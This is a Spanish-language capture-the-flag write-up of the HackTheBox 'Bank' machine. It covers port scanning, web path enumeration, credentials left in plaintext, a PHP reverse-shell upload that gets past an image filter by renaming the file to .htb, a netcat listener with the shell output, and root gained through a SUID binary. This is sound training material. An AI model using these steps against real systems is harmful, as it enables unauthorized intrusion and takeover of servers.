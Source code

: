 ```yaml
---
layout      : post
title       : "Bank - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Bank-HackTheBox/Bank.webp
optimized_image : /assets/images/HTB/Bank-HackTheBox/Bank.webp
category    : [ htb ]
tags        : [ Linux ]
description: 💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!
---
```


💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!

![](/assets/images/HTB/Bank-HackTheBox/rating-bank.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Reverse Shell](#rev-shell).     
4. [Escalada de Privilegios](#privesc). 
    * [Emergency](#emergency).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```

Escaneamos servicios y las versiones de los mismos.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aquí tenemos un servidor web en el puerto 80 (http), el puerto 53 (DNS) y el puerto 22 (ssh).

Añadimos al archivo host la ip y el dominio bank.htb

Procedo a enumerar el servidor web

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Encontramos un login para acceder pero no tenemos credenciales, asique me pongo a enumerar rutas en el servidor para ver que tenemos.

![](/assets/images/HTB/Bank-HackTheBox/web1.png)

Para enumerar las rutas uso gobuster

![](/assets/images/HTB/Bank-HackTheBox/gobuster.png)

Encuentro la ruta balance-transfer y dentro de ella una lista bastante grande con archivos.

![](/assets/images/HTB/Bank-HackTheBox/web2.png)

Abro uno de ellos aleatoriamente

![](/assets/images/HTB/Bank-HackTheBox/data1.png)

Parece que la data está encriptada, pero tras probar y probar y no consigo desencriptarla.

Sigo buscando en la lista de archivos y me fijo en el tamaño de cada uno, suelen rondar entre los 582 y 585 el tamaño de los archivos, asique buscando encuentro uno de ellos que tiene de tamaño 257.

![](/assets/images/HTB/Bank-HackTheBox/web3.png)

Al abrirlo encuentro unas credenciales en texto plano.

![](/assets/images/HTB/Bank-HackTheBox/data2.png)

Usaré las credenciales para iniciar sesión en el panel web.

Una vez dentro encontramos un panel con todas las transacciones y datos bancarios.

![](/assets/images/HTB/Bank-HackTheBox/web4.png)

# Explotación [#](explotacion) {#explotacion}

----

## Reverse Shell [🔥](#rev-shell) {#rev-shell}

Navegando por la web me dirijo a Support y encuentro una formulario donde puedo subir un archivo.

![](/assets/images/HTB/Bank-HackTheBox/web5.png)

Tras ver eso creo un archivo con una reverse shell en php de la siguiente fuente:

[https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Edito la ip y el puerto.

Una vez lista la reverse shell la subo al servidor.

![](/assets/images/HTB/Bank-HackTheBox/errorweb.png)

Pero me arroja ese error, solo se pueden subir imágenes al servidor.

Tras probar a editar el content-type en Burpsuite para bypassear la restricción no tengo éxito asique procedo a analizar el código del support.php donde encuentro el siguiente comentario:

> "[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]" 

Si cambiamos la extensión de .php a .htb podemos ejecutar los archivos php.

Subimos el archivo y listo:

![](/assets/images/HTB/Bank-HackTheBox/web6.png)

Ahora nos abrimos un listener netcat en el puerto configurado en la rev shell

`nc -lnvp 1234`

Ejecutamos el archivo desde el panel web y tenemos la conexión inversa.

```shell
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 48610
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 00:27:22 up  1:08,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Una vez dentro ya podemos leer el user.txt

Ahora toca escalar privilegios


# Escalada de Privilegios [#](privesc) {#privesc}

----

## Emergency [🚑](emergency) {#emergency}

Busco binarios SUID de propietarios root con el comando find 

```bash
www-data@bank:/home/chris$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
Tenemos el binario emergency

Asique pruebo a ejecutarlo para ver que sucede o que he de hacer...

```bash
www-data@bank:/home/chris$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami 
root
```

Lo ejecuto y para mi sorpresa ya soy root!!!

![](/assets/images/HTB/Bank-HackTheBox/dollar.gif)
